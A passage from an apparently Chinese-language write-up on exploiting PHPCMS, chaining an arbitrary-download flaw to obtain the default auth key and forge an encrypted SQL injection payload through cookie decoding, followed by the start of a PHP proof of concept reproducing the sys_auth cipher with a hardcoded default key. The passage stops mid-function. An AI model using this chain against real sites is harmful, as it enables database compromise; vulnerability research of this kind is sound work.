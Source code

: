 所以说参数全可控。而默认秘钥我们可以配合任意下载来获取。

思路很清晰了要倒着来：

$userid = paylaod ->  sys_auth($phpcms_auth, 'DECODE', $auth_key) -> sys_auth($_COOKIE[$var], 'DECODE') ->  加密后的sql payload


#### 漏洞利用
附上某位大佬的poc:


	<?php
	/**
	* 字符串加密、解密函数
	*
	*
	* @param    string    $txt        字符串
	* @param    string    $operation    ENCODE为加密，DECODE为解密，可选参数，默认为ENCODE，
	* @param    string    $key        密钥：数字、字母、下划线
	* @param    string    $expiry        过期时间
	* @return    string
	*/
	function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0) {
    	$ckey_length = 4;
   		$key = md5($key != '' ? $key : "4sUeVkLdmNZYGu2bPshg");
    	$keya = md5(substr($key, 0, 16));
    	$keyb = md5(substr($key, 16, 16));
    	$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    	$cryptkey = $keya.md5($keya.$keyc);
    	$key_length = strlen($cryptkey);

    	$string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    	$string_length = strlen($string);

    	$result = '';
    	$box = range(0, 255);

    	$rndkey = array();
    	for($i = 0; $i <= 255; $i++) {
        	$rndkey[$i] = ord($cryptkey[$i % $key_length]);
    	}

   		for($j = $i = 0; $i < 256; $i++) {
        	$j = ($j + $box[$i] + $rndkey[$i]) % 256;
        	$tmp = $box[$i];
       		$box[$i] = $box[$j];
        	$box[$j] = $tmp;
    	}

    	for($a = $j = $i = 0; $i < $string_length; $i++) {
        	$a = ($a + 1) % 256;
        	$j = ($j + $box[$a]) % 256;
        	$tmp = $box[$a];
        	$box[$a] = $box[$j];
        	$box[$j] = $tmp;
        	$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    	}
